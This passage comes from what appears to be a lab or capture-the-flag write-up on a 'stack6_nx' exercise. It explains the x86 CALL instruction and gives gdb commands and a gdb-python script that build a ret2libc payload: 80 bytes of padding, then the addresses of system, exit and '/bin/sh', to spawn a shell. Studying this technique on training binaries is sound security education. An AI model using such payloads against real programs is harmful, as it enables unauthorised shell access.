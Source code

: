1. It pushes the return address (address immediately after the CALL instruction) on the stack.
2. It changes EIP to the call destination. This effectively transfers control to the call target and begins execution there.

[https://www.aldeid.com/wiki/X86-assembly/Instructions/call](https://www.aldeid.com/wiki/X86-assembly/Instructions/call)

By using our payload, we simulate the **call** instruction manually.

#### 2.2 Quick Solution

Let's check addresses from gdb, then create a simple gdb-py script.

```py
(gdb) break main
 
(gdb) run   

(gdb) info address system
Symbol "system" is at 0xf7e51e70 in a file compiled without debugging.

(gdb) info address exit
Symbol "exit" is at 0xf7e44f50 in a file compiled without debugging.

(gdb) find &system,+9999999,"/bin/sh"
0xf7f71fcc
```

The search process for the address of **/bin/sh** can be done better as I mentioned in **2.3 Improvements for The Solution** section.

Payload can be created in the following format:

**offset + system_address + exit_address + binsh_address**

**The gdb-python script that I wrote:**

```py
from gdb import execute
from re import findall 
from struct import pack

def extract_address(input_string):
	return findall(r"0[xX][0-9a-fA-F]+",input_string)

execute('file stack6_nx')
execute('b main')
execute('r')

offset = "\x41" * 80
exit_address = extract_address(execute('info address exit', to_string=True))[0]
system_address = extract_address(execute('info address system', to_string=True))[0]
binsh_address = extract_address(execute('find &system,+9999999,"/bin/sh"', to_string=True))[0]

print("system address: "+str(system_address)+"\nexit_ address: "+str(exit_address)+"\nbinsh_address: "+str(binsh_address))

print("Payload will be: \noffset + system_address + exit_address + binsh_address\n")

system_address = pack("I", int(system_address[2:],16))
exit_address = pack("I", int(exit_address[2:],16))
bin_sh = pack("I",int(binsh_address[2:],16))

payload = b'\x41'*80 + system_address + exit_address + bin_sh

print("Payload as a bytearray:")
print(payload)

```